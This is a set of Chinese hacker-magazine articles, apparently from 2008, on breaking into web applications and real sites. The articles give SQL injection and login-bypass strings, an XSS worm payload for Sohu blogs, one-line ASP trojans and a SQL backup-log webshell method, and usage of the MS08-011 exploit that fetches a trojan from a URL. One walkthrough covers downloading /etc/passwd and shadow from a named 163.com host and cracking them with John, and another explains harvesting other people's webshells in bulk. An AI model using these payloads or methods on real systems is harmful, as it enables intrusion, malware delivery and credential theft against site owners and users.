rs("Phone")=Trim(Request.Form("Phone"))
rs("Mobile")=Mobile
rs("Fax")=Fax
rs("Email")=Email
rs("title")=Trim(Request.Form("title"))
rs("content")=htmldecode2(Request.Form("content"))
rs("Publish")=Trim(Request.Form("Publish"))
rs("time")=Date()
rs.Update
rs.Close
Response.Redirect "FeedbackView.asp"
%>
```

很简单，也只是 trim 过滤掉了空格罢了，这样的代码谁看都慌……如图 8。

图 8 XSS 漏洞

## 4、不应该存在的注入漏洞

我们在一开始就讲到了，这个系统是防注入的，那为什么我们还能有 SQL 注入呢？整个系统我感觉和南方的基本上是一模一样，基本上就是换了一个名字，连漏洞也给抄袭过来了。还记得上次的唐网科技吗？代码如下：

```asp
<%
Dim id
id=Request.QueryString("id")
%>  '从客户端获得 id 变量
<html>
<head>
<title>图片</title>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<%
Set rs=Server.CreateObject("ADODB.Recordset")
rs.Open "select * from CompHonor where id="&id,conn,1,1   '直接入库
%>
<% If Trim(rs("CompHonor"))<>"" Then
  Response.Write "<div align='center'></div>"
Else
  Response.Write ""
End If %>
```

这个注入就不需要小菜演示了吧！

## 后记：

闪软天下发布了很多的版本，虽然大同小异，但是部分的系统还是有不一样的地方，希望大家也去分析下，多多交流下心得。小菜我也得去跑索骏了，祝贺大家新春快乐哦 ^_^

## 编辑点评：

首先赞一个，大过年的小作者还有心情读代码，研究漏洞，不但文笔流畅，且技术含量也不错。

本文分析了闪软的几个比较严重的漏洞，有些甚至非常致命。看其防注的处理，小编相信还有更多的漏洞，大家可以继续挖掘。

## 新的攻击方式？搜索引擎的启发

小冲 @ [O.S.T] 杭州良山中学

- 1. sohu 博客中 XSS 的分析及利用
- 2. 利用 Sohu 博客搜索引擎传播的可行性分析

我对 xss（Cross Site Script，即跨站脚本攻击）跨站是初级的，很低级。毕竟小菜我像大家一样刚入门嘛，严格地说，我连门都进不去。因为基础也没，学什么 xss？甚至先研究了 ajax 才去研究 xss 的。但是我为什么想说出来这个“新的攻击方式”呢？也许在以前已经有牛人找出这个了，也许我可能是注意苹果掉下来，并且去研究苹果的第一个人（有点不谦虚！但是事实）！这个就是我为什么要把这个文章写出来的原因了。

在 2008 年，我们仍然停在 SQL injection、cookie injection、' or '=' or ' 等漏洞上，是否有个新的技术出来成了焦点？当然我无视别人对我侮辱，毕竟提出新的观点、新的想法是相当好的，越是闭关修炼的人，迟早不行的。

这次我说的是一个关于搜索引擎缺陷和博客跨站的结合体——一种通过博客及搜索引擎大量传播的蠕虫攻击方式。

## 一、2007-10-11 日志一

我对 sohu 博客进行检测，是否存在跨站，并且跨站问题出在哪里。由于是以前的了，我无法截图，在这里我打了。最后检测出来，xss 存在于标签（tag）和博客（blog）标题上。为了说明我的文章的意思，在这，我把我的博客名字叫做“<script>alert("xss")</script>”。大家是要看清楚的，这个地方是一个跨站检测代码，为什么要这样做呢？我先埋一个伏笔，因为这个攻击方式是要结合 2 种东西，你仔细地往下看便会发现原来这个和走象棋一样，需要精心布局的。

## 二、2008-1-5 日志二

这图是在茄子宝博客发现的，如图 1。

当时这位牛人只说了一句：我对 sohu 无语了，竟然存在这么低级的漏洞。“这是什么呢？”小菜要问了，看出什么不对了么？你见过哪个搜索引擎输入“xss”，它啪地跳出个框，然后框上又写着“xss”的？有这样的绝对是变态搜索引擎了。呵呵！在这个页面后，我们点击“查看”--“源代码”，将会发现一行被执行的标签。

```html
<div class="blogger"><a href="http://xsser.blog.sohu.com/" target="_blank"><script>alert("xss")</script></a></div>
```

正是这行标签使得浏览器执行了我们的 xss，而 xss 源于哪里呢？<div class="blogger">！嘿嘿，找到了我们的小东西，一个 xss，这个就是博客的标题，也就是博客所有者。当搜索引擎扫了你博客后，你的资料将被放进数据库，由于 sohu 处理不当造成了这个 xss。当用户搜索“xss”或者“<xss>”都会产生 `<div class="blogger"><a href="http://xsser.blog.sohu.com/" target="_blank"><script>alert("xss")</script></a></div>` 这个标签的触发。

## 三、2008-1-17 日志三

- 1. 已经知道 sohu 博客在标签和标题 2 处存在跨站漏洞。
- 2. 搜索引擎将会把博客标题原本地输出，然后造成跨站。

既然搜索引擎会把原本的东西输出，那么我们能不能构造一些关键的、热门的、流行的词语来呢？嘿嘿……邪恶的计划开始了，当一个用户搜索“黑客手册”的时候，我们的页面将显示出去，搜索“黑客”2 字的结果也会出去。但是呢，我们的博客的访问量要足以能站稳前列，这样的话，网民便奇怪了，为什么我搜索这些东西老出来个框呢？

这是噩梦的开始，我不是 xss 大师，那我就用前人的东西来做讲解吧。看着枯燥，但是很有意思哦。我们要开始一场孤寂旅行咯，您只要在家睡一天，就有上千只小鸡来咯。不信？不信你看完，看完后会让您大吃一惊的。还记得上次校内网的蠕虫吗？一天感染几个？我给大家看下图，如图 2。

图片是来自邪恶八进制组的，这个蠕虫从 0 猛地到 500W 人，看好单位了。我们的 xss 能不能达到这样的效果呢？这个还未知，我们有 2 个问题，一是字符长度，二是技术。这 2 个条件困扰着我们小菜。为了让大家能理解，我就假设字符是无限的长度，我们可以在博客的标题中加入以下代码：

```javascript
javascript:document.body.insertAdjacentHTML('afterBegin','<script defer>var r=new ActiveXObject('Microsoft.XMLHTTP');r.open('post','/manage/title.do',false);r.setRequestHeader('Content-Type','application/x-www-form-urlencoded');r.send('m=add&title=xsser&desc=xsser&link=http%3A//xsser.blog.sohu.com');</script>');
```

这代码的意思就是，当访问者访问我们的博客并触发 xss 时，标题将会被修改为“xsser”，并且加上一个“http://xsser.blog.sohu.com”的连接，这样我们就能达到传播的目的了。我把大家可以随意支撑的地方都用“<script>alert("xss")</script>”代替，换句话说，我们挂 `<iframe>` 的时候，只要有人进来，他就中了马，并且还把他的博客上的连接和标题给换成我们的地址。

这个蠕虫简单吧？！恐怖吧？！这个是一个利用搜索引擎的缺陷构造造成的蠕虫，当然官方已经停止该搜索引擎的使用了，俺的小博客也被封了……

我只是提及到一个新的思路而已，大家不要光看，就当是学一种新的思路吧，也算 2008 年，我给大家带来的新礼物，希望这个新的攻击方式能结合搜索引擎演绎得更完美。

## 编辑点评：

作者说的，主要是针对 sohu 的博客系统和其搜索引擎中存在的 XSS 漏洞，其给出的代码原理也是基于 sohu 博客的，局限性虽然很大，但主要是一个思路的体现，XSS 在 AJAX 日益流行的今天，其利用的空间还非常地大。

再说一点题外话，就 sohu 的这个漏洞，我个人认为其技术含量不是很高，因为 sohu 的博客系统主要是用 Java 编写 J2EE 应用，用到的应该是（类似）Lucene 之类的搜索引擎，而该类引擎中需要指定用来搜索的字段和存储方式，看样子这个漏洞只是其特定存储字段时没有注意过滤罢了。但是按照这个思路想下去，还是有不少利用的余地，大家自己发挥吧。## 详解流行音乐网程序漏洞

■ 梦幻☆剑客

从本文可以学到：

- 1. 流行音乐网程序漏洞分析
- 2. 获取 webshell

我是个音乐爱好者，上网没事的时候就喜欢到各大音乐站点去欣赏最新的歌。最近在源码之家看到有个流行音乐网程序，无聊之下下载回本地研究，发现在几个漏洞，于是便有了本文。

## 一. 注入漏洞

本程序在安全方面做得很不够，出现了众多 ASP 程序漏洞，接下来我就介绍最常见的注入漏洞，发生注入漏洞的文件是 list.asp。在 list.asp 文件中有如下代码：

```asp
<%
Mtvcid=request.QueryString("Mtvcid")
if mtvcid="" then
  mtvcid=1
end if
set rs=server.createobject("adodb.recordset")
sql="select * from Mtv where Mtvcid="&cstr(Mtvcid)
rs.open sql,conn,1,3
if rs.EOF then
  errmsg="! 服务器出错!请联系管理员!"
  call error()
  Response.End
end if
%>
```

变量 mtvcid 只是简单判断一下是否为空，cstr 函数并没有起到过滤的作用，函数强制转换成字符串，而注入输入的 SQL 语句正好是字符串型，接下来建立记录集进行 SQL 查询，这就造成了注入漏洞。将漏洞地址放到啊D里检测一下，如图 1。


利用啊D猜解的密码和账户进后台，其实后台很简洁，只有基本的管理操作，拿 webshell 需要进后台，配合接下来的漏洞。

## 二. 数据库注入

简单地说就是向数据库中写入一些不安全的脚本，本程序的数据库后缀名是 ASP，数据库中也没有防下载，这对数据库来说极度不安全。数据库在 IE 浏览显示乱码，说明没有防下载表，如图 2。


利用注入得到的用户和密码进入后台，有个添加 MTV 分类的功能，提交的动作文件是 Mtv-sortSave.asp，其中添加动作的代码如下：

```asp
<%
Mtvs=trim(request.form("Mtvs"))
if Mtvs="" then
  errmsg=errmsg+" 类别名称不能为空! "
  call error()
  Response.End
end if
set rs=server.createobject("adodb.recordset")
sql = "SELECT * FROM Mtv where (Mtvcid IS NULL)"
rs.Open sql,conn,1,3
'...省略
%>
```

这里的 Mtvs 从客户端取得参数后只是过滤了两端空格，对在后台插入一句话木马没有任何影响。在添加分类中写入 `</%execute request("a")%>`，可是连上数据库时并没有看到“execute”类型不匹配的字符，为什么呢？从代码上看应该成功写入了数据库中，带着疑问，将数据库改成 mdb 格式，看到小马也的确写入数据库，但不能运行，如图 3。


我在看数据库时，发现一个很有趣的现象，数据库中也存在 `"<%not down%>"` 表，可是里面没有写入二进制数据，而是一段文字，估计程序员对数据库注入不是很了解，如图 4。


我就不相信一句话插不进去，再次来到后台，重新在添加 MTV 中写入一句话，成功写入一句话木马，连上数据库，如图 5。看到熟悉的界面，接下来的小马带大马就不用说了吧，我想大家应该都会的。


## 三. 上传漏洞

上面的方法是先得到账户和密码，再登录后台获得 webshell，这样比较麻烦，有没有更好利用的漏洞呢？带着疑问我在读代码过程中，又发现一处漏洞。这个漏洞不需要进后台，利用很简单，直接上传 ASP 木马。主要是漏洞文件判断的文件名有问题。先看下漏洞文件 upfile1.asp，有如下的一段判断代码：

```asp
<%
'...省略
Private Function CheckFileExt (fileEXT)
dim filetype
filetype="abc,csd"    '//这里为什么判断这些东西，不明白
filetype=split(filetype,",")
for i=0 to ubound(filetype)
  if lcase(fileEXT)=lcase(trim(filetype(i))) then
CheckFileExt=false
exit Function
...
else
...
CheckFileExt=true
end if
next
End Function
%>
```

上面的代码中自定义了一个 function 函数，可惜这个函数判断文件名是“abc、csd”，感觉像是胡乱写的，不知道程序员为什么有这个想法，不解。就是因为这样的判断，所以造成了除“abc、csd”后缀名不能上传外，其他的都可以上传。我这里上传一个 ASP 木马就可轻松拿下 webshell，主要的原因还是后缀名有问题。并且上传文件没有经过 session 验证，导致普通浏览者也可以利用，如图 6。


上传漏洞很严重，瞬间拿下 webshell。在这里给站长提供个漏洞修补方案，建议将 upfile1.asp 文件调用后台 session 验证文件，或者对文件名过滤。对于数据库注入问题建议加入防下载表，至于注入漏洞，建议用 isnumeric 函数过滤数字型变量。接下来是对官方站点的测试。

## 四. 官方站点测试

本地程序漏洞分析完毕后来到官方站点，原来我下的流行音乐网程序和武林音乐网是一个内核，事后我下了武林音乐网程序回来分析后发现也存在上传漏洞。对于官方站点的测试，我利用上传漏洞很轻松地拿下了 webshell，发现主站程序是武林音乐网 2.0 的演示地址，如图 7。


综观整个程序，潜在的漏洞有很多，直观的就是注入漏洞。所以说开源程序不安全，一旦出现漏洞，很多网站就要遭殃了，还是建议程序员在写程序时多注意下脚本安全因素。好了，文章就写到这里，有什么疑问欢迎到《黑客手册》论坛上与我交流。

> 编辑点评：文章说的几个漏洞都非常致命，可以瞬间拿下 webshell。但是我不免还是要为国内的开源作者们说句话，就我自身的体会，国内个人开源的氛围很差劲，没有回报，还经常遭到一些“不公正”的待遇。就我个人而言，我是非常尊敬这些开源者们的。我们非常期待国内开源和技术的氛围能上一个台阶。

## 白潴进销系统分析

■ 小帅 [O.S.T] 杭州昆山中学

从本文可以学到：

- 1. 白潴进销系统漏洞分析
- 2. 漏洞利用

最近去一些发布 code 的站看了一看，发现有一个系统“卖”得很火，下载的人也比较多。一般来说下载的人多了，自然看的人也多，小菜我也不忘去凑合凑合，这不 down 了份源代码进行白盒 + 黑盒的测试，下载次数如图 1。


总的来说，这个系统的安全还是可以的，毕竟不是对外开放的站点，只是一个做记录的。大家应该没有想到过旁注站，却无从下手，想必这个系统的发布将带来更好的入侵办法，呵呵，我不是教大家非法入侵，咱们就学点有用的，是什么呢！？大家往下看。

## 一、登录验证不安全

代码如下：

```asp
<%
else
nowusername=request.form("username")
nowpwd=request.form("pwd")
if Trim(Request.Form("Verifycode"))<>Trim(Session("Verifycode")) then
%>
<script language=javascript>
alert('您输入的后台管理认证码不对，请重新输入！')
window.history.go(-1)
</script>
<%
response.end
end if
userip = Request.ServerVariables("HTTP_X_FORWARDED_FOR")
If userip = "" Then
  userip = Request.ServerVariables("REMOTE_ADDR")
end if
sql="select * from login where (username='"&nowusername&"' and pwd='"&md5(nowpwd)&"') or (bianhao='"&nowusername&"' and pwd='"&md5(nowpwd)&"')"
set rs=conn.execute(sql)
if rs.eof then
  conn.execute("insert into rizi(username,class,address) values ('"&nowusername&"','登录失败','"&userip&"')")
%>
<script language=javascript>
alert('登录名称或密码错误！')
window.history.go(-1);
</script>
<%
response.end
end if
conn.execute("insert into rizi(username,class,address) values ('"&nowusername&"','登录成功','"&userip&"')")
set rs_zu=conn.execute("select * from zu_login where id='"&rs("id_zu")&"'")
if rs_zu.eof=false then
  Session("baipuzu")=rs_zu("zu")
else
  Session("baipuzu")=""
end if
session("baipu_username")=rs("username")
session("baipu_id")=rs("id")
session.Timeout=1000
response.redirect "main.asp"
end if
%>
```

如果你第一次看这个漏洞，第一次接触的话，那么你就要好好地看下去了。学过 ASP 的应该遇到过 and、or、but 这些逻辑符的吧。在语句里，我这是指 `sql="select * from login where (username='"&nowusername&"' and pwd='"&md5(nowpwd)&"') or (bianhao='"&nowusername&"' and pwd='"&md5(nowpwd)&"')"` 这句话，有一个 AND 和一个 OR 运算符。起初我是条件反射，看到 username 和 pwd 连着写就以为是 or 注入，没错，答案也正确，能进去，但是思路上错了，我们来一次正确的认识吧。

首先是把 `' or='' or '` 带入语句查询，我们来分析下吧！从 username 表中查找 username 为空的用户就是 `(username='')`，或者空 = 空（`' or'='or'`）。当然，username 表中不会有用户名为空的人。前面这句查询语句的结果是假，而后面的 `'or'='or'`，即空 = 空，却是“真的”，所以呢！返回就“是真”。好了，写到这，我们就可以直接进去了，如图 2。


## 二、conn 暴库

```asp
<%
set conn=server.createobject("adodb.connection")
mypath=server.mappath("data/baipu_jxc28.asp")
conn.open "provider=microsoft.jet.oledb.4.0;data source=" & mypath
%>
```

这个漏洞是完全不应该的，都什么年代了，还直接释放了数据库，没加任何的容错语句。这个我们可以采用 IIS 的“/”问题来让它暴出数据库路径，即 `http://localhost/conn/%5cconn.asp`，把“/”用 URL 编码替换就行，如图 3。


## 三、Cookie 注入

Cookie 注入真的很流行啊！从发现的那天起，到现在仍然传播着，我们来看 cookie 注入的代码。

SF_Sql.asp 这个文件是用来检查 get 和 post 数据的，一般都先看看这个文件是怎么回事，再回过头来检查其他的，代码如下：

```asp
<%
Dim Fy_Post,Fy_Get,Fy_In,Fy_Inf,Fy_Xh,Fy_db,Fy_dbst
' 自定义需要过滤的字串,用 "|" 分隔
websql="update|count|and|exec|insert|chr|mid|master|delete|truncate|declare|char|script|request|.."
Fy_In = replace(websql,"'","''")
Fy_Inf = split(Fy_In,"|")

' POST 部份
If Request.Form<>"" Then
For Each Fy_Post In Request.Form
For Fy_Xh=0 To Ubound(Fy_Inf)
If Instr(LCase(Request.Form(Fy_Post)),Fy_Inf(Fy_Xh))<>0 Then
response.write("<script>alert('操作错误，下面是产生错误的可能原因：\n\n1?在您提交的资料中含有敏感字符！');history.go(-1);</script>")
response.end
End If
Next
Next
End If

' GET 部份
If Request.QueryString<>"" Then
For Each Fy_Get In Request.QueryString
For Fy_Xh=0 To Ubound(Fy_Inf)
If Instr(LCase(Request.QueryString(Fy_Get)),Fy_Inf(Fy_Xh))<>0 Then
response.write("<script>alert('操作错误，下面是产生错误的可能原因：\n\n1?在您提交的资料中含有敏感字符！');history.go(-1);</script>")
response.end
End If
Next
Next
End If
%>
```

代码很有针对性地对提交的数据进行检测，好在写代码的人给了注释，嘿嘿……cookie 他没写。存在 cookie 注入吗？答案是肯定的，怎么办？检测啊。但是那套系统我都能进去了，还 cookie 它什么密码啊，那就直接暴它主站的密码，如图 4。

## 四、后记

这个站比较变态，backup 的内容不和上传路径在同一目录下，否则就能靠 win2003 的 IIS 来解析我们的图片马了。小小感谢下 sniperhgh 和 missvole 陪我拿它 webshell 拿了老半天，虽然快快而归，但小菜我却收获不小。

也希望大家能从我的文章中吸收点知识吧，我也是菜鸟，和大家一起飞翔吧。~ 祝贺大家新春快乐！


> 编辑点评：白蔷进销系统的几个漏洞并不高级，但是这些常规的逻辑都没处理好，肯定还有其他致命的漏洞，还好使用的人并不是很多，否则又要引起大混乱了。

## 对南方数据企业网站管理系统 V10.0 漏洞分析

从本文可以学到：

- 1. 南方数据企业网站注射和 XSS 漏洞分析
- 2. 漏洞利用及其部分小技巧

上次第一次写文章，被黑哥录了，对我等菜鸟鼓励很大，再来写一篇。好了废话不说了，开始吧……先来看看主页怎么样！如图 1。排版让人看了清爽，两个字——简单。


## 一、Cookie 防注入

看看有没有注入，代码如下。

```asp
<%
dim Action, FoundErr, ErrMsg
dim ID, sql, rs
Action=trim(request("Action"))
ID=trim(request("AD"))

select case Action
case "Modify"
    if ID="" then
        response.write "请选择要修改的产品ID"
    else
        ID=Clng(ID)
        sql="select * from Product where ID='" & ID & "'"
        set rs=Server.CreateObject("ADODB.Recordset")
        rs.open sql,conn,1,1
        if rs.eof and rs.bof then
            response.write "找不到产品"
        else
            response.write "<p>" & rs("Content") & "</p>"
        end if
        rs.close
        set rs=nothing
    end if
end if
%>
```

ID 并没有过滤就放入数据库查询，注入漏洞出现。当我提交 `"` 时出现了对话框，如图 2。


看到图 2 好熟悉啊！大概只做了 post 和 get 两种提交方式防注入吧？每个文件调用 Check_Sql.asp，看看文件怎么写的。

```asp
<%
Dim Query_Badyord, Form_Badyord, i, Err_Message, Err_Web, name
Err_Message = 1
' 页面 3 = 先提示再转向
Err_Web = "Err.Asp"
Query_Badyord = "'| and | select | update | chr | delete | %20from | insert | mid | master | set | declare | (37)"

' 在这部份定义 get 非法参数，使用 "|" 号间隔
Form_Badyord = "'| |% |& |* |# |' |( |) |="
' 在这部份定义 post 非法参数，使用 "|" 号间隔
' ------------------------------
On Error Resume Next

' 对 get query 值的过滤
if request.QueryString<>"" then
    Chk_badyword=split(Query_Badyord,"|")
    FOR EACH Query_Name IN Request.QueryString
        for i=0 to ubound(Chk_badyword)
            if instr(lCase(request.QueryString(Query_Name)),Chk_badyword(i))<>0 Then
                Select Case Err_Message
                Case "1"
                    Response.Write "<Script Language=JavaScript>alert('传参错误！参数'+'&name&'+'的值中包含非法字符！\n\n请不要在参数中出现 and、update、delete、insert、mid、master 等非法字符！');window.close();</Script>"
                Case "2"
                    Response.Write "<Script Language=JavaScript>location.href='"&Err_Web&"'</Script>"
                Case "3"
                    Response.Write "<Script Language=JavaScript>alert('传参错误！参数'+'&name&'+'的值中包含非法字符！\n\n请不要在参数中出现 and、update、delete、insert、mid、master 等非法字符！');location.href='"&Err_Web&"'</Script>"
                End Select
                Response.End
            End if
        NEXT
    NEXT
End if

' 对 post 表单值的过滤
if request.form<>"" then
    Chk_badyword=split(Form_Badyord,"|")
    FOR EACH name IN Request.Form
        for i=0 to ubound(Chk_badyword)
            if instr(LCase(request.form(name)),Chk_badyword(i))<>0 Then
                Select Case Err_Message
                Case "1"
                    Response.Write "<Script Language=JavaScript>alert('出错了！表单'+'&name&'+'的值中包含非法字符！\n\n请不要在表单中出现 %、&、*、#、() 等非法字符！');window.close();</Script>"
                Case "2"
                    Response.Write "<Script Language=JavaScript>location.href='"&Err_Web&"'</Script>"
                Case "3"
                    Response.Write "<Script Language=JavaScript>alert('出错了！参数'+'&name&'+'的值中包含非法字符！\n\n请不要在表单中出现 %、&、*、#、() 等非法字符！');location.href='"&Err_Web&"'</Script>"
                End Select
                Response.End
            End if
        NEXT
    NEXT
end if
%>
```

果然不出我所料，只有 post 和 get 两种提交方式防注入，并没有 Cookie 防注入程序。

## 二、挂马

我就不利用了，主要是分析。利用方法在网上有教程，《黑手》07.09期也有详细的利用文章，大家可以拿来看……

为什么不说跨站？因为没有太高的技术，只能弹个框框。那么何不说挂马啊，不是很好吗？

每个新闻都有评论，看下文件代码，只对“评论人”做了过滤。

```asp
...</span>评论人：<%=Replace(Replace(rs3("com_name"),"<","&lt;"),">","&gt;")%>&nbsp; 评论时间：<%=rs3("com_date")%></td>
</tr>
<tr>
<td height="22" style="word-break:break-all"><%=response.write "&nbsp;&nbsp;&nbsp;&nbsp;" & rs3("com_content") & "<br>"%>
```

变量 com_content 是评论内容。在评论内容里写入挂马内容：`<iframe width=300 height=300 src=http://127.0.0.1></iframe>`，但我的电脑没有联网，没有看到效果，对不住各位看官了……

## 三、利用默认路径入侵

我有时去中国被黑站点统计网去找一些被入侵的站点，然后拿一些别人的 WEBSHELL，再得到他的 WEBSHELL 密码，再利用社会工程学，拿他人侵过的站点的 WEBSHELL，很简单就拿到一些 WEBSHELL。

教大家怎么拿他人的 WEBSHELL 吧，我在中国被黑站点统计网看了，一个人人侵的站点样式都一样。用注入工具看看是不是能注入，如果不能注入那就要看它是什么系统，再下这套系统回来，看看数据库连在什么文件夹下。再用挖掘机去批量搜索，然后在搜索里面随便找个下载他数据库，得到用户名和密码，在默认网站入口路径登录。

接下来就是上传个图片木马，再备份。这样就得到一个 WEBSHELL，利用这种方式入侵，一天能得不少 WEBSHELL。

再教个技巧，大家可以到专门让人下载程序的网站，到里面看看什么系统下载次数较多，你就把该系统下载，看看数据库在什么路径，然后再用挖掘机找，这样就不用明天在那里找注入点了……


> 编辑点评：南方数据企业网站管理系统的这些漏洞都挺简单的，同样是没有过滤 Cookie 注射和 XSS，倒是最后的那些小技巧挺不错的。再说句题外话，有心得写文章是好的，但是帮人写文章要用心，不要拿出来的文章一看满篇的错别字和病句，会给其他人很差印象的。

## 简单体验 ms08-011

sniperhg @ [O.S.T]

从本文你可以学到：

- ms08-011 exploit 的使用方法

Office 最新漏洞了，在绿盟看到的漏洞公告：

## MS08-011

Microsoft Works 文件转换器中的漏洞，可能允许远程代码执行（947081）

- 受影响软件：
- Microsoft Office 2003 Service Pack 2
- Microsoft Office 2003 Service Pack 3
- Microsoft Works 8.0
- Microsoft Works Suite 2005

漏洞描述：Microsoft Works 文件转换器没有正确地验证 .wps 格式的分段长度头、分段头索引表信息及其他字段长度信息，如果用户受骗打开了恶意的 Office 文件的话，就可能触发这些漏洞，导致执行任意代码。

```text
C:\Documents and Settings\Administrator\桌面\MS08011\MS08011> ms08-011

Microsoft Office : WPS Stack Overflow
Adam Walker (c) 2007
Modified by Mika[EST]
```

```text
[+] Targets:
    (1) Windows XP SP2 ntdll.dll DE jmpesp
    (2) Windows XP SP2 ntdll.dll CN&TW jmpesp

Usage: wps.exe <target> <file> <URL>
Ex: wps.exe 2 test.wps http://www.0x520.cn/test.exe
```


出现的是程序的使用说明，有个参数对应的是系统的版本，我们用第 2 个，针对中文的 XP SP2 操作系统。按照使用说明生成一个 wps 文件，如图1。

关于这个漏洞的测试需要说明一下，漏洞是因为 Office 在打开 wps 格式的文件进行转换时出现，所以需要安装 wps 文档转换器。

> 小提示：这个漏洞的使用有一定的局限性，所以还得靠各位的社会工程学了，因为有几种可能是触发不了这个漏洞的：
> 1、对方机器打了补丁；
> 2、对方机器很巧合地安装了金山公司的 WPS，但你投递时还不能非要让对方用 Word 打开它，可能对方会骂你两句半；
> 3、对方 Office 没有安装 wps 转换器；
> 4、对方打死也没有学会如何通过 Word 来打开 wps 文档。

接下来我用 Word 打开这个 wps 文档，果然提示了要安装转换器，如图2。

如果没打补丁的话就下载安装了。这里在运行我们的木马了。这里我用的是辅助的数据库查看软件代替的木马，如图3，下载并运行了我们的程序。


总的来说，这个 exp 很好，很强大，期待牛人能做出更方便我们使用的网马。

> 【文中涉及的相关利用工具在光盘中有收录】

## 编辑点评

微软很厚道，总是留点后路给那些牛 X 的黑客，然后他们研究出漏洞，写出好用的 exp。在这里，我要感谢 MS，感谢牛 X 的黑客，再用一句本山大爷的话：感谢所有 TV！

## 本栏目导语

春节的西线栏目我因为感冒没有编辑。在 3 月的西线无战事栏目中先给大家拜一个晚年吧。这期的文章，我编辑完后有一个感觉，那就是温故而知新。现在的入侵难度是越来越大了，因为一是没有更新更好的人侵技术出现，另一方面是防守的意识和水平都起来越高了，所以说现在的文章的技术都还是老一套的东西，但是也不乏有一些技术亮点。那就让我们回味已掌握的技术，从中总结经验教训，得以提高，然后再有所新的发现吧。

## 对网马的一次反病毒测试

◈ 马骏（lsecsp）

从本文中你可以学习到

- 一个 unix+jsp 的入侵方法

我最近很郁闷，原本答应非安全的要来写两篇文章，可是等我有时间写的时候，一看才发现，我的 shell 没有了。此文仅供大家 YY，过程就相当于教会大家一个入侵的方法吧。至于是否真的入侵，我想并不是那么重要。大家对 jsp 站点的入侵会比较陌生，其实我也是。首先我把入侵主要的思路整理下：

%3f + loadfile + john = 权限。

接触 jsp 站比较多的朋友或许知道，入侵 jsp 站点时有几个比较弱智的漏洞。一个是源码泄漏漏洞，一个是由于配置不当引起的目录任意浏览漏洞。这次我们接触的是第 2 种情况。

%3f 是 ? 的 URL 编码，当我们在目标站的 URL 下键入 %3f.jsp 时，在默认情况下，Tomcat 会打开目录浏览功能。当要求的资源直接映射到服务器上的一个目录时，由于在目录中缺少缺省的 index.jsp 等文件，Tomcat 将不返回找不到资源的 404 错误，而是返回 HTML 格式的目录列表。这样就能够让我们任意地浏览文件了。

Loadfile 是属于一个载入本地文件的意思，你也可以理解成本地包含。

John 是一款爆破密码的软件。

好了，思路理顺了。我们的入侵过程是通过 %3f（你可以理解成任意文件浏览，因为不单单是 %3f.jsp 能造成这个问题）来找到有 loadfile 的地方。一个文件一个文件地浏览，不放过任何的一个文件。找到后下载 /etc/passwd 和 shadow，最后利用 john 爆破出密码。具体怎么操作呢？我下边截几张图片给大家。

首先我们键入 http://go.tech.163.com/%3f.jsp 来浏览任意目录，如图1所示。


之后我们通过它的 load.jsp 来下载 /etc/passwd 和 shadow 文件，如图2、图3。当然，还有个 my.cnf 文件。这个是 mysql 的配置文件，不过没多大用处，数据库服务器在内网。


下载好 shadow 文件后，保存到和 john 的一个目录下，然后我们到命令行下进入 john，图4就是它的帮助界面了。

- 1. 先消灭 FOOL USER，就是“笨蛋用户”：`john --single shadow.txt`
- 2. 再消灭稍微聪明一点的用户：`john --wordfile:password.lst --rules shadow.txt`
- 3. 最后进行大屠杀：`john -i:all shadow.txt`


> 当然了，第三步可能要你的电脑跑上 10000 年。我的进度如图4，已经跑了 11 天了，然后给大家看下成果，如图5所示。

共跑出 2 个用户，一个是 gkzhl-ong，密码是 123456；一个是 ginew，密码为空。当然了，我不是通过这 2 个用户进去的。最后发下登录界面，我是通过 SSH Secure Shell 登录的，如图6所示，大家可以到网上下载此软件。


大家还有什么不明白的可以上我 blog（majun1988.cngxr.com）讨论，或者发邮件给我：majun1988@gmail.com。

【软件 john 已收录在本期光盘】

jsp 老的漏洞还有很多，大家可以在百度搜索 lcx 写的暴 jsp 源码的网页，已经收集了 jsp 大部分的暴源码漏洞。

**编辑点评：**
大的站不一定就没有弱智的漏洞，此篇文章恰巧证明了这一点。

## 入侵 hackdiy.com

从本文中你可以学到

- 暴 Aspx 路径的方法

前几天好友 angel 说需要几个 webshell，叫我帮弄点 webshell 过来。无意中，入侵了明小子 hackdiy.com 的站点^^。大家都知道，明小子的站是由炼空科技提供的空间，我们使用一个比较憋馊的方法来旁注。这里我们就不用查询 whois 信息了，一般来说，一些空间商会免费提供空间给部分人使用，然后再在部分人的站点下打上“本站服务器及带宽由 XXX 提供”，而炼空科技不是专门做空间交易的，也不是什么 IDC，它就一台服务器。我们到网上去搜索“本站服务器及带宽由炼空”，结果如图1所示。


哇~！站长圈子里好出名的站原来也是炼空提供的空间，没准还是他们自己的站呢，看来还是不能小看人家。佛曰：“武功再高，也怕菜刀；穿得再吊，一砖撂倒。”我们就是那把菜刀，我们就是那一块砖板。不说了，开干。我在 orz6 上找到了个注入点，别问我怎么找的，我就是找到了，http://www.orz6.com/help.aspx?id=1 存在注入。这里有个小技巧要告诉大家，其实 aspx 的注入，只要对方使用的是 MSSQL，那很容易搞下的。为什么呢？因为有些站点使用 .net 的时候配置不当，我们在文件前加个“~”符号它就会暴露出文件的绝对路径。

**小知识：** 什么是绝对路径？什么是相对路径？

**绝对路径：** 绝对路径就是你的主页上的文件或目录在硬盘上真正的路径（URL 和物理路径），例如：`c:\xyz\test.txt` 代表了 test.txt 文件的绝对路径。`http://www.cngxr.com` 也代表了一个 URL 绝对路径。

**相对路径：** 相对于某个基准目录的路径，包含 web 的相对路径（HTML 中的相对目录）。例如：在 servlet 中，`/` 代表 web 应用的根目录，和物理路径的相对表示。例如：`./` 代表当前目录，`../` 代表上级目录。这种类似的表示，也是属于相对路径。

> 大家或许有疑问？即使拿到了绝对路径，又有什么用呢？有经验的小黑们应该知道在 SQL 注入攻击中，有一个方法是拿到了路径后就能够快速拿 webshell 的。是的，Backup log。

**小知识：** 什么是 Backup log 攻击？顾名思义 backup——备份，log——日志。在 SQL 注入攻击中通过导出日志文件到 web 目录中来获取 webshell 的方法，我们称之为 Backup log 攻击。当然，大家或许有别的称呼来命名这种类型的攻击。具体步骤如下：首先我们先把数据库故障还原类型更改下，因为默认的情况下数据库故障还原类型都是简单型的，这时候不能够对日志文件进行备份，需要使用的话语句如下：

```sql
alter database XXX set RECOVERY FULL
create table cmd (a image)
backup log XXXX to disk = 'c:/majun' with init
insert into cmd (a) values ('webshell代码')
backup log XXXX to disk = 'd:/majun/1.asp'
```

XXX 代表目标站的数据库名字。

